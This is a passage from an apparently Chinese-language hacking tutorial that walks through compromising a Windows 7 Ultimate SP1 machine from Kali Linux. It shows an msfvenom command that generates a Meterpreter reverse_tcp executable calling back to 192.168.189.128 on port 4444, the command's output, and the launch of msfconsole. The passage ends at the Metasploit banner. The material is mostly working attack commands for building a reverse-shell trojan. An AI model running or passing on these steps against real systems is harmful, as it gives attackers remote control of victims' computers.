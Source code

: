 用做攻击对象的目标机器：



```
Windows 7 Ultimate SP1

```

### 步骤 1：创建 Payload 程序


Payload 是一个类似于病毒或者木马的程序，可以运行在远程目标上 —— 为了黑掉那台机器。可以通过以下命令来创建 Payload（`program.exe`），以便能使用 Kali Linux 黑掉 Windows。



```
root@kali:/# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.189.128 LPORT=4444 --format=exe -o /root/program.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
Saved as: /root/program.exe
root@kali:/# ls -la /root/program.exe
-rw-r--r-- 1 root root 73802 Jan 26 00:46 /root/program.exe

```

通过 `ls` 命令，我们可以确认 Payload 程序是否成功生成在指定的位置。


### 步骤 2：运行 `mfsconsole` 命令启动 msf 命令窗口



```
root@kali:# msfconsole


                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


Taking notes in notepad? Have Metasploit Pro track & report
your progress and findings -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.12.22-dev                         ]
+ -- --=[ 1577 exploits - 906 auxiliary - 272 post        ]
+ -- --=[ 455 payloads - 39 encoders - 8 nops             ]
```